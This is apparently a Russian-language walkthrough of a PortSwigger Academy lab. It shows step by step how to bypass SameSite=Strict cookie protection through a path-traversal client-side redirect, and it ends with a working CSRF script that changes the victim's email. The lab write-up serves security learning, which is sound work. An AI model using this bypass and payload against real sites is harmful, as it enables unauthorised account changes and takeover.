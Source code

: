 Залогинимся под `wiener:peter`

изменим почтовый ящик на `change@me.com`

найдем в `Proxy` -> `HTTP history` запрос на изменение почты
```
POST /my-account/change-email
...
email=change%40me.com&submit=1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/1.png)
Отправим данный запрос в Repeater и нажмем `ПКМ` -> `Change request method`
и получим запрос следующего вида 
```
GET /my-account/change-email?email=change2%40me.com&submit=1
```
и увидим, что он прошел удачно, и почта действиельно сменилась на `change2@me.com`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/2.png)

Далее перейдем в рандомный блог и запостим любой комментарий к случайному посту

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/3.png)

Далее вернемся в `Proxy` -> `HTTP history` и посмотрим последовательность запросов при отправке комментариев

На данном запросе мы отправили наш комментарий к посту
```
POST /post/comment HTTP/2
...
postId=7&comment=qwe&name=1&email=2%402&website=http%3A%2F%2Fqq.ru
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/4.png)
Далее идет страничка-заглушка, после которой выполнится редирект, при котором выполнится скрипт  `/resources/js/commentConfirmationRedirect.js`
```
GET /post/comment/confirmation?postId=7
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/5.png)

а потом видим вызов данного скрипта, в котором указывается `ID поста`, к которому мы писали коммент, чтобы именно к нему нас и редиректунли
```
GET /resources/js/commentConfirmationRedirect.js
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/6.png)
Далее воспроизведем `GET` запрос (который `GET /post/comment/confirmation?postId=7`) в URL, но попробуем заставить его редиректнуть на страницу `my-account`
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/comment/confirmation?postId=../my-account
```
и после небольшой задержки увидим, что страница не найдена

Не удивительно, ведь мы обратились к 
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/my-account
```
а нужно к 
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/my-account
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/7.png)

Попробуем обойти данное ограничение, выйдя из данной директории добавив `../` к запросу, получив
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/comment/confirmation?postId=../my-account
```
и видим, что нас редиректнуло на нужную страницу

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/8.png)

Далее попробуем изменить почту способом, который мы с вами ранее обнаружили, добавив к запросу `change-email?email=change2%40me.com&submit=1`

Итого, наш полный запрос будет выглядеть как 
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=change3%40me.com&submit=1
```

и видим, что запрос не прошел, изменим `&` в URL кодировке, это будет `%26`

Итого полный запрос будет выглядеть как
```
https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=change3%40me.com%26submit=1
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/9.png)

И увидим, что почта изменилась, и мы близки к цели

Оформим данный запрос как script для выполнения
```
<script>
  window.location ="https://0a79005003c5229085281d1c0071001b.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=change4%40me.com%26submit=1"
</script>
```

Нажмем `store` и `Deliver Exploit to victim` и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/8.%20SameSite%20Strict%20bypass%20via%20client-side%20redirect/pics%20for%20walkthrough/10.png)
